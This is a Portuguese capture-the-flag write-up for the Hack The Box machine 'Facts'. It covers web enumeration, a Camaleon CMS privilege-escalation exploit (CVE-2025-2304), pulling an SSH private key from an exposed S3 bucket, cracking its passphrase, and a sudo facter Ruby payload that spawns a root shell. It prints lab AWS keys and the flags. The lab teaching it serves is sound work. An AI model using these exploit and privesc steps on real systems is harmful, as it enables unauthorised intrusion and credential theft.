








# Hack The Box — Facts


---

# Informações da Máquina

| Nome  | Dificuldade | Plataforma     | OS    |
| ----- | ---------- | ------------ | ----- |
| Facts | Easy       | Hack The Box | Linux |

---

# Superfície de ataque

```
1. Nmap scan → descoberta de HTTP e SSH
2. Enumeração web → identificação de painel admin
3. Exploração do Camaleon CMS (CVE-2025-2304)
4. Extração de credenciais S3
5. Download de chave SSH privada
6. Acesso via SSH
7. Enumeração de privilégios (sudo)
8. Escalação via fator (Ruby exploit)
```

---

# Reconhecimento

A enumeração inicial foi realizada com Nmap.

``` nmap -sV -T5 -sC 10.129.19.58 ```




### Descobertas

| Porta | Serviço | Observações                  |
| ---- | ------- | ---------------------- |
| 22   | SSH     | OpenSSH 9.9p1         |
| 80   | HTTP    | nginx (Ubuntu)        |

---

# Enumeração Web

A aplicação web rodando na porta 80 revelou um site chamado **Facts**.



Enumeração com Gobuster:

```gobuster dir -u http://facts.htb/ -w /usr/share/wordlists/dirb/common.txt ```




### Descobertas

- `/admin` → redireciona para `/admin/login`
- Diretórios ocultos (.git, .env-like, etc)
- Indício de painel administrativo

---

# Exploração

A aplicação utiliza o **Camaleon CMS v2.9.0**, vulnerável a:

> **CVE-2025-2304 — Privilege Escalation (Authenticated)**

Exploit utilizado: ``` python exploit.py -u http://facts.htb/ -U abc -P abc -e -r ```




### Resultado

- Elevação de privilégio dentro do CMS
- Extração de credenciais AWS S3:

```
Access Key: AKIA13F1EA8B94A4DE85
Secret Key: AiZzRMmU6R3jv2SYM6D5hLjifqmIGCio9L0g/R2r
Endpoint: http://localhost:54321
```

---

# Acesso Inicial

Utilizando AWS CLI: ``` aws --endpoint-url http://facts.htb:54321 s3 ls ```


Buckets encontrados:

- internal
- randomfacts

Download de arquivos sensíveis:

``` aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/authorized_keys . ```
``` aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/id_ed25519 . ```


Chave privada obtida:



Conversão + crack:

``` ssh2john id_ed25519 > hash ```
``` john hash --wordlist=/usr/share/wordlists/rockyou.txt ```




Senha encontrada: ``` dragonballz ```

Login SSH: ``` ssh -i id_ed25519 trivia@10.129.19.58 ```

---

# Flag de Usuário

``` cat /home/william/user.txt ```



``` 4d4b5ae95ae5d03f02e36d20ed2fd319 ```


---

# Escalação de Privilégio

Verificação de permissões sudo: ``` sudo -l ```

Resultado:
``` 
User trivia may run:
/usr/bin/facter
```

---

# Explorando a Escalação de Privilégio

O `facter` permite execução de código Ruby arbitrário.

Exploit:

```
cd /tmp
cat > pwn.rb

Facter.add(:pwn) do
  setcode { exec("/bin/bash -p") }
end
```

Execução: ``` sudo facter --custom-dir=/tmp pwn ```

# Flag de Root

``` cat /root/root.txt ```



``` a09e07c25af8e613bfc5747fb73823d3 ```

# Vulnerabilidades Identificadas

### Escalação de Privilégio no Camaleon CMS (CVE-2025-2304)

Descrição:

- Vulnerabilidade autenticada que permite elevação de privilégios
- Permite acesso a dados sensíveis (credenciais)

Impacto:

- Comprometimento total da aplicação
- Acesso a infraestrutura interna (S3)

### Exposição Insegura de S3

Descrição:

- Bucket S3 interno acessível
- Continha arquivos sensíveis (.ssh)

Impacto:

- Exposição de chave privada SSH
- Acesso direto ao sistema

### Má Configuração de sudo (facter)

Descrição:

- Execução de binário com privilégios root
- Permite execução de código Ruby

Impacto:

- Escalação completa para root

# Ferramentas Utilizadas

* Nmap
* Gobuster
* AWS CLI
* John the Ripper
* SSH
* Python exploit
* Facter

# Principais Aprendizados

* Sempre verificar CMS e versão → exploits públicos
* Credenciais expostas frequentemente levam ao comprometimento completo
* Buckets S3 mal configurados são críticos
* sudo com binários interpretados (Ruby/Python) = privesc fácil

# Autor

GitHub: https://github.com/ninjaa-exe
